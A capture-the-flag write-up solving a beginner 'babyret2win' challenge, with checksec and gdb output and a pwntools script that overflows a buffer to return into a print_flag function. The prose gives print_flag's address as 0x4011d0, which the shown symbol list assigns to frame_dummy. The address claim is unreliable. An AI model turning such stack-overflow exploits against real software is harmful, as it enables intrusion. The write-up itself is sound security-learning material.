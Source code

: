 # babyret2win

This challenge was incredibly easy a swell I'm not even sure if its worth it to do a writeup, but here it is anyway.

Download binary from site:

<pre lang="md">$ wget https://ctf.mcpt.ca/media/problem/mXcRUMoBm9VNveWdDtaUYE1jrkkKZyRjNzNvBUhoJrQ/babybof.zip </pre>
Before running it I want to check the basic information. 

```bash 
$ file babyret2win
babyret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6699503ebd1ea7ab332f6db957bce4bd8abea64d, for GNU/Linux 3.2.0, not stripped
```

So, now we know that its a 64 bit ELF program, and not stripped. These are the most important parts. As it's not stripped it should be easy to debug and reverse engineer.

Lets check the protections: 

```shell 
$ checksec --file=babyret2win
[*] '/home/julianb/home/ctf/pwn/babyret2win/babyret2win/babyret2win'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

```

Perfect! There's no PIE and no canary. We should be free to reverse engineer the program to find the address for the win function. Now we can run the file.

`$ ./babyret2win`

Wow thats a lot of text.... I dont think I'll put it all here as its just explaining how a ret2win works. 
At the end we get an input where we can enter our name. This is where we can do the exploit. 
First I will find the address for the win function with gdb. 

```shell
Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401090  puts@plt
0x00000000004010a0  fgets@plt
0x00000000004010b0  gets@plt
0x00000000004010c0  setvbuf@plt
0x00000000004010d0  fopen@plt
0x00000000004010e0  getc@plt
0x00000000004010f0  _start
0x0000000000401120  _dl_relocate_static_pie
0x0000000000401130  deregister_tm_clones
0x0000000000401160  register_tm_clones
0x00000000004011a0  __do_global_dtors_aux
0x00000000004011d0  frame_dummy
0x00000000004011d6  print_flag
0x0000000000401226  main
0x00000000004013a0  __libc_csu_init
0x0000000000401410  __libc_csu_fini
0x0000000000401418  _fini
(gdb) 
```

So the name of the function we need to return to is `print_flag` and its address is `0x4011d0`. Great. Lets make the exploit!

```python
from pwn import *
import time

elf = context.binary = ELF('./babyret2win')
p = process()

#automate pressing enter 8 times to skip the tutorial
for i in range(8):
	p.sendline('')
	time.sleep(.05)

#create the payload by overflowing the buffer, finding the address for flag and packaging it
payload = b'A' * 56 + p64(elf.sym.print_flag)

p.sendline(payload)
p.interactive()
```

Now lets run it... 

...

Actually lets not, the tutorial is wayy too long so putting the output would mean including all that... yeah you'll just have to take my word for it. 

